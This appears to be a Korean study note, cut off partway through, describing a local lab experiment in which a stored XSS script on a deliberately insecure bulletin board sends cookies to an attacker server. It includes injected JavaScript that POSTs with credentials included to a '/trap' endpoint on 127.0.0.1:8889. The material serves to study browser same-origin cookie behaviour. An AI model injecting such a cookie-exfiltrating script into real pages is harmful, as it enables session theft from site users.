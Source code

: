 ## 실험변형 1. 공격자B의 hostname 변경
- 실험의 맹점
  - 사실 이 실험에는 맹점이 있다.
  - 공격자B가 올린 게시글의 악성스크립트를 보면  
    AJAX 요청 목적지인 공격자B의 hostname와  
    AJAX 요청 주체인 게시판A의 hostname이 'localhost'로 동일한 것을 알 수 있다.  
    (공격자B의 endpoint: POST; http://localhost:8889/trap,  
    게시판A의 게시글 url: http://localhost:8888/victim/community)
  - 이 경우 브라우저에서 볼때, 
    게시판A의 서버와 공격자B의 서버가 같다고 인식하게 된다.
  - 따라서 [쿠키의 동일출처정책](https://developer.mozilla.org/ko/docs/Web/Security/Same-origin_policy#%EA%B5%90%EC%B0%A8_%EC%B6%9C%EC%B2%98_%EB%8D%B0%EC%9D%B4%ED%84%B0_%EC%A0%80%EC%9E%A5%EC%86%8C_%EC%A0%91%EA%B7%BC)에 의하여 게시판A에서 할당한 쿠키가 공격자B로 넘어가게 된다.
  - 만약 AJAX 요청 시 공격자B의 hostname을 다르게 설정하면 어떨까?  
    (실제 상황이라면 다를 것이기 때문)
- 실험환경 수정
  - 아래 부분만 수정한 뒤, 이전 실험과 동일한 방법으로 실행한다.
  - 게시판A에서 공격자B의 글 조회 html
    - ```html
        {% raw %}{{ define "victim-community.html" }}{% endraw %}

        <!DOCTYPE html>
        <html lang="ko">
          <head>
            <meta charset="UTF-8" />
            <meta http-equiv="X-UA-Compatible" content="IE=edge" />
            <meta name="viewport" content="width=device-width, initial-scale=1.0" />
            <title>보안 허술 게시판</title>
          </head>
          <body>
            <div>게시글 본문</div>
            <div>제목: 이 글 보면 좋은 일 생김</div>
            <div>
              내용: 없음
              <script type="text/javascript">
                // <<< -- 변경 내역 시작 -- <<<
                // const baseURL = "http://localhost:8889";
                const baseURL = "http://127.0.0.1:8889";
                // >>> -- 변경 내역 끝 -- >>>
                const testURL = `${baseURL}/trap`;

                function setCookie() {
                  // 참고 : https://cofs.tistory.com/363
                  var date = new Date();
                  date.setTime(date.getTime() + 60 * 60 * 24 * 1000);
                  document.cookie = `auth=1; expires=' + ${date.toUTCString()}; path=/`;
                }

                function testPost() {
                  setCookie();

                  fetch(testURL, {
                    method: "POST",
                    headers: {
                      Authorization: "Bearer auth2",
                    },
                    credentials: "include",
                  })
                    .then((response) => response.json())
                    .then((responseJson) =>
                      console.log("Response", JSON.stringify(responseJson))
                    )
                    .catch((error) => console.log("Error", error));
                }
